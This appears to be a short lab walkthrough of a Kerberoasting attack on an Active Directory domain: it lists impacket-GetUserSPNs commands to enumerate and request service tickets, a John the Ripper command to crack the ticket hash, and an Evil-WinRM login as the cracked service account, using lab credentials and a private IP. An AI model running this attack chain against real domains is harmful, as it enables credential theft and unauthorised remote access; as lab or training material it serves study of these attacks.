 # Impacket and Evil-WinRM Usage for Enumeration and Access

## 1) Run `impacket-GetUserSPNs`
To get service names, run the following command with the user and the domain:
```bash
impacket-GetUserSPNs -dc-ip 192.168.56.107 skypia.org/penni.andrea:computer
```

## 2) Get Tickets for the Services
Next, request tickets for the services using:
```bash
impacket-GetUserSPNs -dc-ip 192.168.56.107 -request skypia.org/penni.andrea:computer
```

## 3) Crack the Password from the Hash
Use John the Ripper to crack the password from the hash:

```bash
john --format=krb5tgs mssql_svc --wordlist=/usr/share/wordlists/rockyou.txt
```

Alternatively, install and use a different wordlist (e.g., seclists):

```bash
apt -y install seclists
```

## 4) Get Remote Access with Evil-WinRM
Use Evil-WinRM to get remote access with the `mssql_svc` user:

```bash
evil-winrm -i 192.168.56.107 -u mssql_svc
```
